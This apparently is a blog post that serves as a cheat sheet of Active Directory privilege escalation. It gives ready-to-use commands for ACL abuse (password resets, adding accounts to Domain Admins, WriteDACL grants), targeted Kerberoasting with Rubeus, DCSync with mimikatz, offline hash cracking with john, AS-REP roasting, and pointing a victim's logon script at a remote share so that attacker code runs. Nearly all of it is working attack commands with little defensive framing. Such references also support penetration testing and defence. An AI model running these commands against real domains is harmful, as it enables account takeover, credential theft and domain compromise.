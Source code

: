 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: Privilege Escalation Techniques
---
```


# ACL Abuse
Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

### GenericAll / GenericWrite / WriteProperty

#### On a User
- **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
- **Targeted Kerberoasting**
    - Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    - Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    - Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
- **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

#### On a Group
- **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

#### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**

### GenericWrite
- **User**
    - Overwrite logon script path for the target user:
        ```powershell
        Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
        ```

### AllExtendedRights
- **Password Reset**
- **Add to Group**

### Self-Membership
- **Add to Group**
    ```powershell
    Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
    ```

### ExtendedRight on
- **User-Force-Change-Password** (ObjectType)
    - **Password Reset**
        ```powershell
        Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
        Set-DomainUserPassword -Identity delegate -Verbose
        ```

### WriteProperty
- **Add to Group**
    ```powershell
    Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
    ```

### WriteOwner
- **Change the object’s owner**
    ```powershell
    Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
    ```
- **Check Owner**
    ```powershell
    Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
    ```

### WriteDACL
- **Grant Generic Permissions** (must be the owner)
    ```powershell
    $ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
    $IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
    $ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
    $ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
    $ADSI.psbase.commitchanges()
    ```

### DCSync Attack
    ```powershell
	lsadump::dcsync /domain:<Domain> /user:<User>
	lsadump::dcsync /domain:example.com /user:administrator
    ```

## Kerberoasting
Kerberoasting targets accounts with Kerberos service tickets by exploiting service principal names (SPNs) and cracking the tickets offline.

### Find Service Accounts
- Using Active Directory:
    ```powershell
    Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
    ```
- Using PowerView:
    ```powershell
    Get-DomainUser –SPN
    ```

### Escalation
- Use `Rubeus` to Kerberoast service accounts supporting RC4 encryption.
    ```powershell
    Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
    ```

### Crack Tickets
- Use `john` to crack Kerberos tickets:
    ```bash
    john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
    ```

### AS-REP Roasting
Find accounts without Kerberos preauthentication and request an AS-REP hash for offline cracking:
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
Invoke-ASREPRoast -Verbose
```

